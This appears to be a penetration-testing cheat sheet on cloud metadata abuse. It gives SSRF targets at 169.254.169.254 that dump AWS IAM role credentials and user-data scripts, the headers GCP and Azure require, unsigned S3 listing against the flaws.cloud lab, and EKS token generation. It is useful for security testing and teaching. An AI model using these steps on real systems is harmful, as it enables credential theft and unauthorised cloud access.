 ```yaml
---
title: "Cloud"
date: 2019-03-26T08:47:11+01:00
tags:
 - cloud
 - AWS
 - GCP
 - Azure
 - DigitalOcean
 - SSRF
---
```



## Get Cloud Metadata

When you have access to the internal network (SSRF, RCE, ...) you can read
metadata of the server instance. All cloud providers use the same endpoint:
`169.254.169.254`.

On GCP and Azure you need to add some custom header, so a simple SSRF may not be
enough.

- GCP: `Metadata-Flavor: Google` (or the previous header `X-Google-Metadata-Request: True`)
- Azure: `Metadata: true`

Here the documentation for various cloud providers:

- [AWS](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html)
- [Azure](https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service)
- [GCP](https://cloud.google.com/compute/docs/storing-retrieving-metadata)
- [DigitalOcean](https://developers.digitalocean.com/documentation/metadata/)


## AWS

### Check if domain is on a bucket
```bash
dig +nocmd flaws.cloud any +multiline +noall +answer
```

### List a bucket
```bash
aws s3 ls s3://flaws.cloud/ --no-sign-request --region us-west-2
```

### Generate EKS token

If your instance is a Kubernetes node, then you can generate an EKS token to
connect to the Kubernetes API with `kubectl`

```bash
aws eks update-kubeconfig --region {AWS_REGION} --profile {ROLE_NAME} --name {CLUSTER_NAME} --kubeconfig {KUBE_CONFIG_PATH}
kubectl get pods --all-namespaces --kubeconfig {KUBE_CONFIG_PATH}
```

You may find the parameters value (`region` and `name`) on the metadata API.
The `kubectl`commands are details on the [Kubernetes page](/kubernetes/#useful-kubectl-commands).


### Extract secrets from metadata endpoint

On an EC2 instance, you can requests metadata endpoint to collects secrets. This
endpoint might be accessible while exploiting a `SSRF` vulnerability.


#### Get EC2 instance roles

Sending a GET requests to the following endpoint will dump a list of roles that
are attaches to the current EC2 instance.

```url
http://169.254.169.254/latest/meta-data/iam/security-credentials/
http://169.254.169.254/latest/meta-data/iam/security-credentials/<role_name>
```

```json
{
  "Code" : "Success",
  "LastUpdated" : "2021-06-01T15:43:52Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIA................",
  "SecretAccessKey" : "........................................",
  "Token" : "...",
  "Expiration" : "2021-06-01T21:46:32Z"
}
```

Then you can add this token to `aws` CLI tool:

```
[role_name]
aws_access_key_id = ASIA................
aws_secret_access_key = ........................................
aws_session_token = ...
```

#### Get EC2 instance launching script

The following endpoint list the script executed when you start a new instance:

```url
http://169.254.169.254/user-data
```

On an instance used as a EKS node the script can launch `bootstrap.sh`. Use the
same paramters to generate an [EKS token](/cloud/#generate-eks-token)



### Resources on AWS

- [flaws.cloud](http://flaws.cloud/)
